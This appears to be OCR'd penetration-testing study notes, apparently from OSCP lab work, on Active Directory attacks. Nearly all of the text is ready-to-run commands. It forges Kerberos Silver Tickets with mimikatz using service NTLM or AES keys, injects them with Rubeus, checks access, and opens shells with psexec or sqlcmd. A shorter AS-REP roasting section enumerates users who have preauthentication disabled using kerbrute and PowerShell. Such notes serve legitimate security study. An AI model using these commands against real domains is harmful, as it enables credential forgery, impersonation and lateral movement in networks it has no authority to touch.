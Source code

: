 Complete steps
```bash
#using NTLM generate the Silver Ticket (TGS) and inject it into memory for current session using /ptt
kerberos::golden /sid:<domainSID> /domain:<domain-name> /ptt /target:<targetsystem.domain> /service:<service-name> /rc4:<NTLM-hash> /user:<new-user/existing domain user> /ptt
      kerberos: :golden /user:offsec /domain:corp.com /sid: S-1-5-21-4038953314-3014849035-**1274281563** /target:CorpSqlServer.corp.com:1433 /service:MSSQLSvc /rc4:E2B475C11DA2A0748290D87AA966C327 /ptt
      kerberos::golden /sid:S-1-5-21-1987370270-658905905-**1781884369** /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:jeffadmin

#using NTLM generate the Silver Ticket (TGS) and inject it into memory for current session and output to ticket.kirbi using /ticket flag
kerberos::golden /sid:<domainSID> /domain:<domain-name> /ptt /target:<targetsystem.domain> /service:<service-name> /rc4:<NTLM-hash> /user:<new-user> /ticket

#using aeskey generate the Silver Ticket (TGS) and inject it into memory
kerberos::golden /domain:$DOMAIN/sid:$DOMAIN_SID /aes128:$KRBTGT_AES_128_KEY /user:$DOMAIN_USER /service:$SERVICE_SPN /target:$SERVICE_MACHINE_HOSTNAME

# Checking if the forged tickets is in memory
ps> klist

# verify access to targeted SPN (http://web04 is the HTTP SPN mapped to iis_service)
iwr -UseDefaultCredentials http://web04

# Inject the ticket (not needed if the TGS is already loaded in current session)
mimikatz.exe "kerberos::ptt <TICKET_FILE>"
.\Rubeus.exe ptt /ticket:<TICKET_FILE>
        .\Rubeus.exe ptt /ticket:C:\Temp\silver.kirbi

# Obtain a shell
cmd> psexec.exe -accepteula \\<remote_hostname> cmd   # psexec
cmd> sqlcmd.exe -S [service_hostname]                 # if service is MSSQL

```

## AS-REP roasting
### on Kali
- condition: cannot identify any AD users with the account option "Do not require Kerberos preauthentication" enabled 
- Once enabled "Do not require Kerberos preauthentication" of the user, do AS-REP roasting without using previously found password, then **obtain their password** thru AS-REP hashes

kerbrute - Enumeration Users (use with Preauth not required
```
kerbrute userenum -d test.local --dc <dc_ip> userlist.txt
OR
Get-DomainUser -PreauthNotRequired -Verbose
OR
Get-ADUser -Filter {DoesNotRequirePreAuth -eq $True} -Properties DoesNotRequirePreAuth
```
https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/userlist.txt
